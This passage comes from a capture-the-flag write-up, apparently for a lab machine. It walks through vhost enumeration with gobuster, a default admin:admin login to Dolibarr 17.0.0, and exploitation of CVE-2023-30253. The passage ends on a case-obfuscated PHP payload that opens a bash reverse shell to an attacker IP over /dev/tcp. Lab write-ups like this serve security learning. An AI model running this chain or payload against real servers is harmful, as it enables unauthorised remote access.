 {% highlight shell %}
bloody@pc: gobuster vhost -k --domain "board.htb" --append-domain -u 10.10.11.11 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://10.10.11.11
[+] Method:          GET
[+] Threads:         200
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: crm.board.htb Status: 200 [Size: 6360]
{% endhighlight %}

Looking at the output, I found a subdomain that answered with a different Host header: `crm.board.htb`  
To use it as a new attack vector, I added it to the original domain on the `/etc/hosts` file.  

As I did for the other domain, I restarted my approach by accessing the website, which is a login page:

<p align="center" width="100%">
    <img width="50%" src="/assets/images/boardlight/boardlight_login.png">
</p>

By looking at the page, I could see the version used on the instance of Dolibarr, being it `17.0.0`.
Before searching for any default credential of that platform on the online documentation, I tried the pair `admin:admin`, 
resulting on the access to the dashboard. Therefore, I could visualize that the user that I logged in couldn't use
all the features of the platform, but I was able to create websites.

Searching for exploits on `Dolibarr 17.0.0`, I found various POC scripts of the `CVE-2023–30253`.
Better understanding the vulnerability, I could write malicious code on the website that I would create,
being it executed on the server, since there was no proper user input validation.  

Consequently, I wrote PHP code to invoke a bash reverse shell:

{% highlight shell %}

<section id="mysection1" contenteditable="true">

<?pHp exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.23/1337 0>&1'"); ?>

</section>
{% endhighlight %}

